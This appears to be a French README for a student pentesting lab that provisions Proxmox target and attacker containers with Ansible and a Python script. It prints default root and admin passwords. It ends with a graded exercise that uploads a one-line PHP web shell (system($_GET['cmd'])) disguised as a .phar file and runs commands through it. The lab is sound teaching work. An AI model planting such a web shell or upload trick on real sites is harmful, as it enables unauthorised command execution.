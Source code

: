 # VIR2
### Installation de git

```python
sudp apt install git
```

### Clonage du repo

```python
git glone https://github.com/andre1400/VIR2.git
```
### Rendre executable les .yaml
```
find /vir2/VIR2 -name "AnsibleScriptLAB.yaml" -exec chmod +x {} \;
find /vir2/VIR2 -name "AnsibleScriptPirate.yaml" -exec chmod +x {} \;
```

### Installation du module python qu’on aura besoin pour notre script plus tard

```python
pip install absl-py
```

### Installation d’Ansbile

```bash
apt update
apt upgrade
apt install python3-pip
python3 -m pip install --user ansible
echo 'export PATH="$HOME/.local/bin:$PATH"' >> ~/.bashrc
source .bashrc
ansible-galaxy collection install community.mysql
```
## Create new template
```
root@pve-01:~# pct clone 100 {newId} --full --storage lxc-storage
```
### Attrapper la nouvelle ip
```
root@pve-01:~# pct exec {newId} -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.163/24
Start ansible machine & get his ip

root@pve-01:~# pct start 101
root@pve-01:~# pct exec 101 -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.163/24
root@pve-01:~# ssh root@ip
```
### Echange de clé pour la nouvelle machine
```
root@pve-01:~# ssh-keyscan 10.10.111.163 >> ~/.ssh/known_hosts
```
### Edition du .yaml et du .ini file
```
root@pve-01:~# ansible-playbook -i inventoryPirate.ini AnsibleScriptPirate.yaml --ask-pass
```
### Convertion en template
```
root@pve-01:~# pct template {newId}
```
### Edition du ScriptPython.py avec les id's
```
def main(ARGV):
    pentesterlab = 102
    attacking = 100
```
# Utilisation des contenaires
## Creation
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task create --number 5
```
/// OUTPUT
```
Creation des pentesterlabs
ID : 200 Created
ID : 201 Created
ID : 202 Created
ID : 203 Created
ID : 204 Created
Creation des machines attaquantes
ID : 300 Created
ID : 301 Created
ID : 302 Created
ID : 303 Created
ID : 304 Created
```
## Start
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task start --number 3
```
///OUTPUT
```
==Start des machines pentesterlabs==
ID : 200 IP : 10.10.111.150/24
Username: root Password: Pa$$w0rd
ID : 201 IP : 10.10.111.151/24
Username: root Password: Pa$$w0rd
ID : 202 IP : 10.10.111.152/24
Username: root Password: Pa$$w0rd

==Start des machines attaquantes Let's GO !!!...==
ID : 400 IP : 10.10.111.143/24
Username: root Password: Pa$$w0rd
ID : 401 IP : 10.10.111.153/24
Username: root Password: Pa$$w0rd
ID : 402 IP : 10.10.111.154/24
Username: root Password: Pa$$w0rd
root@pve-01:/vir2/VIR2#
```
## STOP
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task stop --number 3
```
/// OUTPUT
```
==Stop des machines pentesterlabs==
ID : 200 Stopped
ID : 201 Stopped
ID : 202 Stopped

==Stop des machines attaquantes==
ID : 400 Stopped
ID : 401 Stopped
ID : 402 Stopped
```
## SUPPRESSION (STOP + SUPPRESSION)
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task erase --number 3
```
///OUTPUT
```
==Remove des machines pentesterlabs==
  Logical volume "vm-200-disk-0" successfully removed
ID : 200 Removed
  Logical volume "vm-201-disk-0" successfully removed
ID : 201 Removed
  Logical volume "vm-202-disk-0" successfully removed
ID : 202 Removed

==Remove des machine attaquantess==
  Logical volume "vm-400-disk-0" successfully removed
ID : 400 Removed
  Logical volume "vm-401-disk-0" successfully removed
ID : 401 Removed
  Logical volume "vm-402-disk-0" successfully removed
ID : 402 Removed
```
## Lister
*Ca va lister uniquement l'environnement lab de l'étudiant, pour tous lister : pct list*

/// INPUT
```
root@pve:~# python3 ./ScriptPython.py --task list --number 2
```
///OUTPUT
```
Listing all containers :
200 stopped penterlabT
201 stopped penterlabT
300 stopped attackerT
301 stopped attackerT
```
## Exécution d’un script `myshell.php` sur `pentester-03` [3 pts]**
    1. Tester depuis le navigateur de l’étudiant *`http://pentester-03/admin/uploads/myshell.phar?cmd=ls`*
        
        <?php  
           system($_GET['cmd']);
        ?>
```
lynx http://10.10.111.169/
go to > Admin
type : y
Login : admin
Password : P4ssw0rd
go on > add
Title : myshell.PHP
File : myshell.phar
click on > add
CRTL + C to quit lynx
```
```
lynx http://10.10.111.169/admin/uploads/myshell.phar?cmd=ls
```
